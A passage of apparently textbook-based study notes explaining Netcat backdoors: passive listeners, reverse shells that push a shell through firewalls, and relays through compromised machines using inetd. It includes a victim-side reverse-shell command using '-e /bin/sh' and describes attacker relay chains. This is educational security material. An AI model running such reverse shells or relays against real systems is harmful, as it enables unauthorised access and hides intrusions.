 ```
In this way, Netcat can be used to create a passive, waiting listener, which will send the attacker a command shell when the attacker makes a connection using Netcat in client mode. If there is a router with packet filters or a firewall in the way, the attacker will not be able to reach the listener. 

## Using Netcat to Actively Push a Backdoor Command Shell
This technique gets attackers around the problems created when a filter blocks external access. 

Instead of passively listening for an inbound connection, Netcat can actively push a command shell from machine-to-machine.

The attacker begins by creating a passive listener on their machine, waiting for a command shell to be pushed to it from the victim system using the following command:

Attacker's Machine: ```$ nc -l -p [port]```
![e00dcce89daff330e19f1f781c487687.png](../_resources/e00dcce89daff330e19f1f781c487687.png)

Then the attacker interacts with the victim machine, possibly using a buffer overflow, to force it to use Netcat in client mode to run a command shell and push it out to the attacker's machine. The following command executed on the victim's machine accomplishes this. 

Victim's Machine: ```$ [attackers_machines] [port] -e /bin/sh```

![1b1d8f2205bf5ff12aba7ebf58fdde98.png](../_resources/1b1d8f2205bf5ff12aba7ebf58fdde98.png)


This technique, which pushes the shell access across an outbound connection, is sometimes called a **reverse shell** or shell shoveling. 
- The major benefit is being able to avoid firewalls.

It's an incoming shell implemented on an outgoing connection as illustrated below. As long as outgoing connections are allowed from the victim machine to the outside world, this technique will work
![d40dcbfe362a4243242f3e10df33d759.png](../_resources/d40dcbfe362a4243242f3e10df33d759.png)

## Relaying Traffic with Netcat
Although a backdoor command shell (either passive or reverse) is the most common use of Netcat by the bad guys, one of its most pernicious uses invovles setting up a relay to obscure the attacker's location on the network. 
- An attacker can configure Netcat clients and listeners to bounce an attack across a bunch of machines controlled by the attacker. The attacker's connection moves from relay to relay. 

Consider the realy example shown below. The attacker controls the machines labeled Relay A and Relay B (these can be systems anywhere on the Internet conquered by the attacker exploiting security vulnerabilities). 
- On each of these machines, the attacker sets up a Netcat listener
- The listener then directs its input to the client on the same system
- This client in turn forwards the traffic out across the network to the next system in the chain. 

![04f4755633a1bc0a5a47aa9199014ea5.png](../_resources/04f4755633a1bc0a5a47aa9199014ea5.png)

There are three popular techniques for establishing a Netcat relay: modifying ```inetd```  on UNIX/Linux, setting up a backpipe on Unix/Linux, and creating relay bat file on Windows.

![62d29728d037f54651aa06c6847a83ec.png](../_resources/62d29728d037f54651aa06c6847a83ec.png)

As discussed in Chapter 3, ```inetd``` is a UNIX daemon that listens for connections for services indicated in the ```/etc/inetd.conf``` file. 
- To create a relay using ```inetd``` and Netcat, the attacker can add a line to ```/etc/inetd.conf``` that cuases ```inetd``` to listen on a specific port and launch Netcat in client mode to forward traffic. 
- The format of the ```/etc/inetd.conf``` file is described in more detail in Chapter 3. 
```
